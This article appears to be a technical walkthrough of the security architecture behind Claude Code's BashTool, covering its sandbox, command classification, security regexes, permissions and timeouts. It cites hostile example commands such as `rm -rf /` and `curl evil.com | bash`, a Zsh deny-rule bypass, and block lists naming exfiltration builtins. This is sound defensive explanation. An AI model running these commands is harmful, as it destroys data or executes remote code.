


## Introduction

Letting AI execute shell commands is an extremely dangerous capability. A single `rm -rf /` can destroy an entire system; a `curl evil.com | bash` can execute arbitrary remote code; even a seemingly harmless `cat /dev/random` can hang the process.

Yet shell command access is indispensable for an AI coding assistant. Running tests, installing dependencies, executing builds, Git operations — all require shell access. Claude Code's BashTool must find the balance between "powerful enough" and "safe enough."

BashTool is the most complex individual tool in Claude Code, with source code spanning multiple files and thousands of lines. This article dives deep into its secure execution architecture — from sandbox mechanisms to command classification, from timeout management to background execution.

---

## BashTool's Input Model

```typescript
// src/tools/BashTool/BashTool.tsx:227-259
const fullInputSchema = lazySchema(() => z.strictObject({
  command: z.string().describe('The command to execute'),
  timeout: semanticNumber(z.number().optional()).describe(
    `Optional timeout in milliseconds (max ${getMaxTimeoutMs()})`
  ),
  description: z.string().optional().describe(
    'Clear, concise description of what this command does in active voice...'
  ),
  run_in_background: semanticBoolean(z.boolean().optional()).describe(
    'Set to true to run this command in the background...'
  ),
  dangerouslyDisableSandbox: semanticBoolean(z.boolean().optional()).describe(
    'Set this to true to dangerously override sandbox mode...'
  ),
  _simulatedSedEdit: z.object({
    filePath: z.string(),
    newContent: z.string()
  }).optional().describe('Internal: pre-computed sed edit result from preview')
}));

// Always omit _simulatedSedEdit from the model-facing schema
const inputSchema = lazySchema(() => isBackgroundTasksDisabled
  ? fullInputSchema().omit({ run_in_background: true, _simulatedSedEdit: true })
  : fullInputSchema().omit({ _simulatedSedEdit: true })
);
```

Of the six fields, `_simulatedSedEdit` is an **internal field** that is never exposed to the model. It is used for sed edit preview: when the user approves a sed command's preview result in the permission dialog, the system writes the pre-computed new file content directly, rather than re-executing sed. This avoids inconsistencies between "what was previewed" and "what was actually executed."

`semanticNumber` and `semanticBoolean` are Claude Code-specific Zod types — they accept string-form numbers/booleans at the schema level (like `"true"` or `"120000"`), handling cases where the AI occasionally sends parameters as strings.

---

## Command Classification System

BashTool classifies shell commands into multiple semantic categories, used for UI presentation and behavioral decisions:



```typescript
// src/tools/BashTool/BashTool.tsx:60-81
const BASH_SEARCH_COMMANDS = new Set([
  'find', 'grep', 'rg', 'ag', 'ack', 'locate', 'which', 'whereis'
]);

const BASH_READ_COMMANDS = new Set([
  'cat', 'head', 'tail', 'less', 'more',
  'wc', 'stat', 'file', 'strings',
  'jq', 'awk', 'cut', 'sort', 'uniq', 'tr'
]);

const BASH_LIST_COMMANDS = new Set(['ls', 'tree', 'du']);

const BASH_SEMANTIC_NEUTRAL_COMMANDS = new Set([
  'echo', 'printf', 'true', 'false', ':'
]);

const BASH_SILENT_COMMANDS = new Set([
  'mv', 'cp', 'rm', 'mkdir', 'rmdir', 'chmod', 'chown',
  'chgrp', 'touch', 'ln', 'cd', 'export', 'unset', 'wait'
]);
```

### Pipeline and Compound Command Classification

The classification logic does not simply check the first command. For pipelines (`cat file | grep pattern`), **all** parts must be search/read commands for the entire command to be classified as search/read:

```typescript
// src/tools/BashTool/BashTool.tsx:94-172
export function isSearchOrReadBashCommand(command: string): {
  isSearch: boolean;
  isRead: boolean;
  isList: boolean;
} {
  let partsWithOperators: string[];
  try {
    partsWithOperators = splitCommandWithOperators(command);
  } catch {
    return { isSearch: false, isRead: false, isList: false };
  }

  // ... iterate over all parts

  // Semantic-neutral commands (echo, printf, true, false, :) are skipped
  // in any position, as they're pure output/status commands that don't
  // affect the read/search nature of the pipeline
  // e.g. `ls dir && echo "---" && ls dir2` is still a read
```

`echo` and `printf` are marked as "semantically neutral" — they do not change the overall read/write nature of a pipeline. `ls dir && echo "---" && ls dir2` is still classified as a directory listing command because `echo` does not affect the semantics.

### Command Semantic Interpretation

Different commands have different exit code meanings. `grep` returning 1 means "no matches found" rather than an error; `diff` returning 1 means "files differ." BashTool correctly interprets these cases through a semantic mapping table:

```typescript
// src/tools/BashTool/commandSemantics.ts:31-89
const COMMAND_SEMANTICS: Map<string, CommandSemantic> = new Map([
  // grep: 0=matches found, 1=no matches, 2+=error
  ['grep', (exitCode) => ({
    isError: exitCode >= 2,
    message: exitCode === 1 ? 'No matches found' : undefined,
  })],

  // ripgrep has same semantics as grep
  ['rg', (exitCode) => ({
    isError: exitCode >= 2,
    message: exitCode === 1 ? 'No matches found' : undefined,
  })],

  // diff: 0=no differences, 1=differences found, 2+=error
  ['diff', (exitCode) => ({
    isError: exitCode >= 2,
    message: exitCode === 1 ? 'Files differ' : undefined,
  })],

  // test/[: 0=condition true, 1=condition false, 2+=error
  ['test', (exitCode) => ({
    isError: exitCode >= 2,
    message: exitCode === 1 ? 'Condition is false' : undefined,
  })],
])
```

---

## Sandbox Mechanism

BashTool's sandbox is an **optional but recommended** security layer that controls which files and network hosts commands can access.

### Sandbox Decision Flow

```typescript
// src/tools/BashTool/shouldUseSandbox.ts:130-153
export function shouldUseSandbox(input: Partial<SandboxInput>): boolean {
  if (!SandboxManager.isSandboxingEnabled()) {
    return false
  }

  // Don't sandbox if explicitly overridden AND unsandboxed commands are allowed
  if (
    input.dangerouslyDisableSandbox &&
    SandboxManager.areUnsandboxedCommandsAllowed()
  ) {
    return false
  }

  if (!input.command) {
    return false
  }

  // Don't sandbox if the command contains user-configured excluded commands
  if (containsExcludedCommand(input.command)) {
    return false
  }

  return true
}
```

Four conditions can bypass the sandbox:

1. Sandboxing is globally disabled
2. `dangerouslyDisableSandbox: true` and the policy allows unsandboxed commands
3. No command (empty call)
4. The command matches the user-configured exclusion list

### Excluded Command Matching

The exclusion list supports the same pattern syntax as permission rules:

```typescript
// src/tools/BashTool/shouldUseSandbox.ts:71-127
  for (const subcommand of subcommands) {
    const trimmed = subcommand.trim()
    // Also try matching with env var prefixes and wrapper commands stripped
    // e.g. `FOO=bar bazel ...` and `timeout 30 bazel ...` match `bazel:*`
    const candidates = [trimmed]
    const seen = new Set(candidates)
    let startIdx = 0
    while (startIdx < candidates.length) {
      const endIdx = candidates.length
      for (let i = startIdx; i < endIdx; i++) {
        const cmd = candidates[i]!
        const envStripped = stripAllLeadingEnvVars(cmd, BINARY_HIJACK_VARS)
        if (!seen.has(envStripped)) {
          candidates.push(envStripped)
          seen.add(envStripped)
        }
        const wrapperStripped = stripSafeWrappers(cmd)
        if (!seen.has(wrapperStripped)) {
          candidates.push(wrapperStripped)
          seen.add(wrapperStripped)
        }
      }
      startIdx = endIdx
    }
    // ... match each candidate against excluded patterns
  }
```

This uses **fixed-point iteration** to handle interleaved environment variables and wrapper commands: `timeout 300 FOO=bar bazel run` requires first stripping `timeout 300`, then stripping `FOO=bar`, and finally matching `bazel`. A single pass cannot handle this interleaving.

### Sandbox Prompt Injection

When sandboxing is enabled, BashTool's prompt dynamically injects sandbox restriction information:

```typescript
// src/tools/BashTool/prompt.ts:172-273
function getSimpleSandboxSection(): string {
  if (!SandboxManager.isSandboxingEnabled()) {
    return ''
  }

  const fsReadConfig = SandboxManager.getFsReadConfig()
  const fsWriteConfig = SandboxManager.getFsWriteConfig()
  const networkRestrictionConfig = SandboxManager.getNetworkRestrictionConfig()

  const filesystemConfig = {
    read: {
      denyOnly: dedup(fsReadConfig.denyOnly),
    },
    write: {
      allowOnly: normalizeAllowOnly(fsWriteConfig.allowOnly),
      denyWithinAllow: dedup(fsWriteConfig.denyWithinAllow),
    },
  }
  // ... serialize config and inject into prompt
}
```

Note the use of the `dedup` function: SandboxManager may produce duplicate paths when merging configuration from multiple sources (settings layers, defaults, CLI flags). Deduplication before prompt injection saves approximately 150-200 tokens.

---

## Security Checks: bashSecurity.ts

BashTool's security checks form a multi-layered defense system, located in `bashSecurity.ts`.

### Command Substitution Detection

```typescript
// src/tools/BashTool/bashSecurity.ts:16-41
const COMMAND_SUBSTITUTION_PATTERNS = [
  { pattern: /<\(/, message: 'process substitution <()' },
  { pattern: />\(/, message: 'process substitution >()' },
  { pattern: /=\(/, message: 'Zsh process substitution =()' },
  { pattern: /(?:^|[\s;&|])=[a-zA-Z_]/, message: 'Zsh equals expansion (=cmd)' },
  { pattern: /\$\(/, message: '$() command substitution' },
  { pattern: /\$\{/, message: '${} parameter substitution' },
  { pattern: /\$\[/, message: '$[] legacy arithmetic expansion' },
  { pattern: /~\[/, message: 'Zsh-style parameter expansion' },
  { pattern: /\(e:/, message: 'Zsh-style glob qualifiers' },
  { pattern: /\(\+/, message: 'Zsh glob qualifier with command execution' },
  { pattern: /\}\s*always\s*\{/, message: 'Zsh always block (try/always construct)' },
  { pattern: /<#/, message: 'PowerShell comment syntax' },
]
```

These patterns detect various forms of command substitution — an attacker could inject malicious commands via `$(malicious_command)` or Zsh's `=cmd` expansion. Note that Zsh's `=curl evil.com` would be expanded to `/usr/bin/curl evil.com`, bypassing command-name-based deny rules.

### Dangerous Zsh Commands

```typescript
// src/tools/BashTool/bashSecurity.ts:43-74
const ZSH_DANGEROUS_COMMANDS = new Set([
  'zmodload',   // Gateway to many dangerous module-based attacks
  'emulate',    // emulate with -c flag is an eval-equivalent
  'sysopen',    // Opens files with fine-grained control (zsh/system)
  'sysread',    // Reads from file descriptors
  'syswrite',   // Writes to file descriptors
  'zpty',       // Executes commands on pseudo-terminals
  'ztcp',       // Creates TCP connections for exfiltration
  'zsocket',    // Creates Unix/TCP sockets
  'zf_rm',      // Builtin rm from zsh/files
  'zf_mv',      // Builtin mv from zsh/files
  // ... more zsh builtins
])
```

`zmodload` is the most dangerous — it can load `zsh/system` (bypassing file permission checks), `zsh/zpty` (pseudo-terminal execution), `zsh/net/tcp` (network exfiltration), and other modules. Claude Code blocks these commands as defense in depth.

### Security Check Identifiers

```typescript
// src/tools/BashTool/bashSecurity.ts:77-101
const BASH_SECURITY_CHECK_IDS = {
  INCOMPLETE_COMMANDS: 1,
  JQ_SYSTEM_FUNCTION: 2,
  JQ_FILE_ARGUMENTS: 3,
  OBFUSCATED_FLAGS: 4,
  SHELL_METACHARACTERS: 5,
  DANGEROUS_VARIABLES: 6,
  NEWLINES: 7,
  DANGEROUS_PATTERNS_COMMAND_SUBSTITUTION: 8,
  DANGEROUS_PATTERNS_INPUT_REDIRECTION: 9,
  DANGEROUS_PATTERNS_OUTPUT_REDIRECTION: 10,
  IFS_INJECTION: 11,
  GIT_COMMIT_SUBSTITUTION: 12,
  PROC_ENVIRON_ACCESS: 13,
  MALFORMED_TOKEN_INJECTION: 14,
  BACKSLASH_ESCAPED_WHITESPACE: 15,
  BRACE_EXPANSION: 16,
  CONTROL_CHARACTERS: 17,
  UNICODE_WHITESPACE: 18,
  MID_WORD_HASH: 19,
  ZSH_DANGEROUS_COMMANDS: 20,
  BACKSLASH_ESCAPED_OPERATORS: 21,
  COMMENT_QUOTE_DESYNC: 22,
  QUOTED_NEWLINE: 23,
} as const
```

23 security checks, each with a numeric ID (to avoid logging strings), covering a broad threat surface from IFS injection to Unicode whitespace attacks.

---

## Destructive Command Warnings

```typescript
// src/tools/BashTool/destructiveCommandWarning.ts:12-89
const DESTRUCTIVE_PATTERNS: DestructivePattern[] = [
  // Git — data loss / hard to reverse
  { pattern: /\bgit\s+reset\s+--hard\b/,
    warning: 'Note: may discard uncommitted changes' },
  { pattern: /\bgit\s+push\b[^;&|\n]*[ \t](--force|--force-with-lease|-f)\b/,
    warning: 'Note: may overwrite remote history' },
  { pattern: /\bgit\s+clean\b(?![^;&|\n]*(?:-[a-zA-Z]*n|--dry-run))[^;&|\n]*-[a-zA-Z]*f/,
    warning: 'Note: may permanently delete untracked files' },

  // File deletion
  { pattern: /(^|[;&|\n]\s*)rm\s+-[a-zA-Z]*[rR][a-zA-Z]*f/,
    warning: 'Note: may recursively force-remove files' },

  // Database
  { pattern: /\b(DROP|TRUNCATE)\s+(TABLE|DATABASE|SCHEMA)\b/i,
    warning: 'Note: may drop or truncate database objects' },

  // Infrastructure
  { pattern: /\bkubectl\s+delete\b/,
    warning: 'Note: may delete Kubernetes resources' },
  { pattern: /\bterraform\s+destroy\b/,
    warning: 'Note: may destroy Terraform infrastructure' },
]
```

These warnings are **purely informational** — they do not affect permission logic or auto-approval. They are displayed in the permission dialog to help users make informed decisions. Note that the `git clean` regex excludes the `--dry-run` and `-n` flags — a dry run is not destructive.

---

## Timeout Management

BashTool has three tiers of timeout control:

```typescript
// src/tools/BashTool/prompt.ts:27-33
export function getDefaultTimeoutMs(): number {
  return getDefaultBashTimeoutMs()
}

export function getMaxTimeoutMs(): number {
  return getMaxBashTimeoutMs()
}
```

1. **Default timeout** — Typically 120 seconds (2 minutes), suitable for most commands
2. **Maximum timeout** — Typically 600 seconds (10 minutes), the AI can request more time via the `timeout` parameter
3. **Background execution** — Long-running commands can be moved to background via `run_in_background: true`

### Background Execution

```typescript
// src/tools/BashTool/BashTool.tsx:52-57
const PROGRESS_THRESHOLD_MS = 2000; // Show progress after 2 seconds
const ASSISTANT_BLOCKING_BUDGET_MS = 15_000;
```

In Assistant mode, blocking commands are automatically backgrounded after 15 seconds. This prevents long-running builds or tests from blocking the entire interaction loop.

Background tasks have dedicated lifecycle management:



Commands that should not be automatically backgrounded are on a blocklist — `sleep` is among them, since it is typically a prelude to waiting and should not be backgrounded.

### Progress Display

```typescript
// src/tools/BashTool/BashTool.tsx:54
const PROGRESS_THRESHOLD_MS = 2000; // Show progress after 2 seconds
```

Progress is shown after a command runs for more than 2 seconds. This avoids unnecessary UI noise for fast commands while keeping users informed that long-running commands are still executing.

---

## Permission System Interaction

BashTool's permission checks are the most complex among all tools, located in `bashPermissions.ts`.

### Subcommand Splitting

```typescript
// src/tools/BashTool/bashPermissions.ts:96-103
export const MAX_SUBCOMMANDS_FOR_SECURITY_CHECK = 50
export const MAX_SUGGESTED_RULES_FOR_COMPOUND = 5
```

Compound commands (like `mkdir -p src && touch src/index.ts && npm init`) are split into subcommands, with each subcommand checked independently for permissions. But there is an upper limit — 50 subcommands. Beyond this number, the system cannot prove the command is safe and falls back to `ask` (requesting user confirmation).

The reason for this limit is explained in the source code: `splitCommand_DEPRECATED` can produce an exponentially growing array of subcommands on complex compound commands, each requiring tree-sitter parsing and ~20 validators, causing event loop starvation.

### Classifier-Based Permissions

Claude Code supports AI classifier-based permission decisions — using a model to understand a command's intent, rather than relying solely on pattern matching. This system is implemented in `bashPermissions.ts` via `classifyBashCommand`, with evaluation results logged for analysis in internal builds.

---

## Prompt Engineering: Guiding the AI to Use the Right Tools

BashTool's prompt not only describes the tool itself but also explicitly guides the AI to prefer dedicated tools:

```typescript
// src/tools/BashTool/prompt.ts:280-291
const toolPreferenceItems = [
  `File search: Use ${GLOB_TOOL_NAME} (NOT find or ls)`,
  `Content search: Use ${GREP_TOOL_NAME} (NOT grep or rg)`,
  `Read files: Use ${FILE_READ_TOOL_NAME} (NOT cat/head/tail)`,
  `Edit files: Use ${FILE_EDIT_TOOL_NAME} (NOT sed/awk)`,
  `Write files: Use ${FILE_WRITE_TOOL_NAME} (NOT echo >/cat <<EOF)`,
  'Communication: Output text directly (NOT echo/printf)',
]
```

This explicit "NOT X" negation is more effective than "prefer Y" — it directly tells the AI what not to do, reducing ambiguity.

### Git Safety Protocol

The prompt includes a detailed Git safety protocol:

```typescript
// src/tools/BashTool/prompt.ts:82-93
// Git Safety Protocol:
// - NEVER update the git config
// - NEVER run destructive git commands (push --force, reset --hard, ...)
//   unless the user explicitly requests
// - NEVER skip hooks (--no-verify, --no-gpg-sign, etc)
// - NEVER run force push to main/master
// - CRITICAL: Always create NEW commits rather than amending
// - When staging files, prefer adding specific files by name
//   rather than "git add -A" or "git add ."
// - NEVER commit changes unless the user explicitly asks
```

These rules are not suggestions — they are hard constraints. The rule marked "CRITICAL" (always create new commits rather than amending) addresses a real data loss risk: when a pre-commit hook fails, the commit did not actually happen, so `--amend` would modify the previous commit.

---

## Sleep Detection

An interesting safeguard — preventing the AI from using `sleep` for polling:

```typescript
// src/tools/BashTool/BashTool.tsx:322-337
export function detectBlockedSleepPattern(command: string): string | null {
  const parts = splitCommand_DEPRECATED(command);
  if (parts.length === 0) return null;
  const first = parts[0]?.trim() ?? '';
  const m = /^sleep\s+(\d+)\s*$/.exec(first);
  if (!m) return null;
  const secs = parseInt(m[1]!, 10);
  if (secs < 2) return null; // sub-2s sleeps are fine (rate limiting, pacing)

  const rest = parts.slice(1).join(' ').trim();
  return rest
    ? `sleep ${secs} followed by: ${rest}`
    : `standalone sleep ${secs}`;
}
```

Sleeps under 2 seconds are allowed (for rate limiting), but longer sleeps are blocked or warned about. When a pattern like `sleep 5 && check_status` is detected, the system suggests using `run_in_background` or a Monitor tool instead.

---

## Sed Edit Preview

BashTool has special handling for `sed` commands — it can show edit previews in the permission dialog:

```typescript
// src/tools/BashTool/BashTool.tsx:360-399
async function applySedEdit(
  simulatedEdit: { filePath: string; newContent: string },
  toolUseContext: SimulatedSedEditContext,
  parentMessage?: AssistantMessage
): Promise<SimulatedSedEditResult> {
  const { filePath, newContent } = simulatedEdit;
  const absoluteFilePath = expandPath(filePath);

  // Read original content for VS Code notification
  let originalContent: string;
  try {
    originalContent = await fs.readFile(absoluteFilePath, { encoding });
  } catch (e) { /* handle ENOENT */ }

  // Track file history before making changes (for undo support)
  if (fileHistoryEnabled() && parentMessage) {
    await fileHistoryTrackEdit(
      toolUseContext.updateFileHistoryState,
      absoluteFilePath,
      parentMessage.uuid
    );
  }

  // Detect line endings and write new content
  const endings = detectLineEndings(absoluteFilePath);
  writeTextContent(absoluteFilePath, newContent, encoding, endings);
```

This ensures that the diff the user sees in the permission dialog and the content actually written are exactly the same — there is no risk of different results due to sed execution environment differences.

---

## Design Takeaways

BashTool's design embodies several key principles:

1. **Defense in depth** — Sandbox, permission checks, security pattern validation, destructive command warnings — each layer may fail individually, but together they provide robust protection

2. **Semantic understanding** — Command classification, exit code interpretation, silent command recognition — the system does not merely execute commands, it understands their semantics

3. **Progressive strategy** — Sandbox by default, with conditional bypass. Default timeout of 2 minutes, extendable to 10 minutes. Foreground by default, with background support. Every constraint has an escape hatch

4. **Complexity budget** — Subcommand count limits, numeric IDs for security checks, deduplicated sandbox paths — when complexity is unavoidable, the system sets explicit complexity budgets to prevent runaway behavior
